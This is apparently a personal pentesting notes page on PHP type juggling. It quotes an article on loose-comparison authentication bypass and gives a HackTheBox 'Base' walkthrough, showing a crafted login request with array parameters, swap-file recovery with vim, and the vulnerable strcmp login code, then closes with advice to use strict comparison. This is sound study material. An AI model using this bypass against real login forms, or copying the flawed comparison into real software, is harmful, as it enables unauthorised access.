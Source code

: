 ```yaml
---
title: PHP Type Juggling Vulnerabilities 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
---
```


# PHP Type Juggling Vulnerabilities

Read [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09).

Copy-pasted, quoted:

```
How vulnerability arises

The most common way that this particularity in PHP is exploited is by using it to bypass authentication.

Let’s say the PHP code that handles authentication looks like this:

if ($_POST["password"] == "Admin_Password") {login_as_admin();}

Then, simply submitting an integer input of 0 would successfully log you in as admin, since this will evaluate to True:

(0 == “Admin_Password”) -> True
```

In the HackTheBox machine Base, login form was bypasseable by entering an empty array into the username and password parameters:

```
Original request


POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username=admin&password=admin

```


```
Crafted request:

POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username[]=admin&password[]=admin
```

How to know? By spotting the file login.php.swp in the /login exposed directory and reading its contents with:

```bash
vim -r login.php.swp
# -r  -- list swap files and exit or recover from a swap file

```

Content:

```
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```


Quoting from the article [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09): "When comparing values, always try to use the type-safe comparison operator “===” instead of the loose comparison operator “==”. This will ensure that PHP does not type juggle and the operation will only return True if the types of the two variables also match. This means that (7 === “7”) will return False."

